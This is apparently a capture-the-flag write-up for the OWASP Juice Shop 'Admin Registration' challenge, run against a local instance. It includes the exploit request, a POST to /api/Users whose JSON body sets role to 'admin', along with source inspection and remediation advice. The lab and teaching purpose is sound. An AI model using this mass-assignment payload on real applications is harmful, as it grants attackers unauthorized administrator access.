



# Admin Registration

## 1. Challenge Information

- **Category:** Improper Input Validation
- **Challenge:** Admin Registration
- **Objective:** Register a user with administrator privileges.
- **Target:** OWASP Juice Shop running locally at `http://127.0.0.1:42000`
- **Vulnerability:** Client-controlled privilege assignment during user registration.

## 2. Objective

Investigate the user registration API to determine whether an ordinary user can control their assigned role. Validate the finding by registering a test account with administrator privileges and confirming that the challenge is solved.

## 3. Reconnaissance / Discovery

### Step 1: Identify the registration endpoint

Inspected the server-side registration middleware:

```bash
sed -n '395,420p' /var/lib/juice-shop/server.ts
```

**Observation:** The application processes registration requests through `POST /api/Users`. Before the generated API handles registration, middleware checks the submitted email, password, and password-repeat fields.

### Step 2: Inspect the challenge verifier

```bash
sed -n '40,70p' /var/lib/juice-shop/routes/verify.ts
```

The relevant code is:

```ts
export const registerAdminChallenge = () => (req, res, next) => {
  challengeUtils.solveIf(challenges.registerAdminChallenge, () => {
    return req.body && req.body.role === security.roles.admin
  })
  next()
}
```

**Observation:** The challenge verifier checks whether the request body contains the administrator role.

### Step 3: Inspect the user model

```bash
sed -n '65,100p' /var/lib/juice-shop/models/user.ts
```

The role field defines `customer` as its default and accepts the roles `customer`, `deluxe`, `accounting`, and `admin`.

**Finding:** The model supports an administrator role, so the next step was to determine whether public registration could assign it.

### Step 4: Inspect API resource configuration

```bash
sed -n '465,535p' /var/lib/juice-shop/server.ts
```

The application uses Finale to generate API resources from its Sequelize models. The `User` resource exposes the `/api/Users` endpoint, excluding the password and TOTP secret from API attributes.

The inspected configuration did not explicitly exclude the `role` field.

## 4. Attack Surface

- **Endpoint:** `POST /api/Users`
- **Method:** `POST`
- **Input:** JSON registration body
- **Relevant field:** `role`
- **Security boundary:** The server must determine the privileges assigned to a newly registered user.

The investigation focused on whether the registration endpoint trusted a role supplied by the client.

## 5. Validation

The challenge status was checked before exploitation:

```bash
curl -s http://127.0.0.1:42000/api/Challenges |
jq -r '.data[] |
select(.key=="registerAdminChallenge") |
"\(.name) | solved=\(.solved)"'
```

**Initial result:**

```text
Admin Registration | solved=false
```

An additional empty JSON request returned `201 Created` and created a record with ID `24`, an empty username, and a null email. However, this did not solve the Admin Registration challenge. This demonstrated that a successful HTTP response alone does not establish that the intended challenge condition has been met.

## 6. Exploitation

A controlled registration request was sent to the local Juice Shop instance with a disposable test identity and an administrator role:

```http
POST /api/Users
Content-Type: application/json
```

The JSON body included the following fields:

```json
{
  "email": "admin-lab-test@example.com",
  "password": "[REDACTED]",
  "passwordRepeat": "[REDACTED]",
  "role": "admin"
}
```

The request returned:

```text
HTTP/1.1 201 Created
```

The response confirmed that the new account had ID `25` and the role `admin`. Its profile image was also set to the administrator default image.

**Result:** The API accepted the client-supplied role and created the test account with administrator privileges.

## 7. Evidence

### Evidence 1: Registration challenge verifier

The server-side verifier compares the submitted role with the administrator role.



### Evidence 2: Successful administrator registration

The API returned `201 Created` and confirmed that the new test account had the `admin` role.



### Evidence 3: Challenge completion

The challenge status endpoint reported that Admin Registration was solved.



## 8. Security Impact

If a production application permits unauthenticated users to choose privileged roles during registration, an attacker could create an account with unauthorized administrative access.

Depending on the application's capabilities, administrator access could expose sensitive information, allow unauthorized changes, or enable account and system management actions.

The impact depends on the privileges granted to the role and the resources protected by the application.

## 9. Root Cause

The registration workflow accepts a client-supplied role and allows that value to determine the privileges of the created account.

The underlying issue is **broken privilege assignment**: authorization-sensitive attributes are not adequately controlled by the server during registration.

## 10. Lessons Learned

- Trace an API request through its middleware, model, and generated resource configuration.
- A model's default role does not guarantee that the default will be used when a client can submit another value.
- A successful HTTP status does not, by itself, prove that a vulnerability was exploited.
- Verify the created account's effective role and check the challenge state independently.
- Use disposable accounts and avoid exposing passwords, tokens, or other secrets in public evidence.

## 11. Conclusion

The Admin Registration challenge was solved by submitting a registration request containing `role: "admin"`. The server accepted the field and created the account with administrator privileges.

The finding demonstrates why role assignment should be enforced server-side rather than trusted from client-controlled registration data.

**Recommended remediation:** Assign the `customer` role server-side during public registration, reject or ignore client-supplied privileged fields, and restrict role changes to a properly authorized administrative workflow.
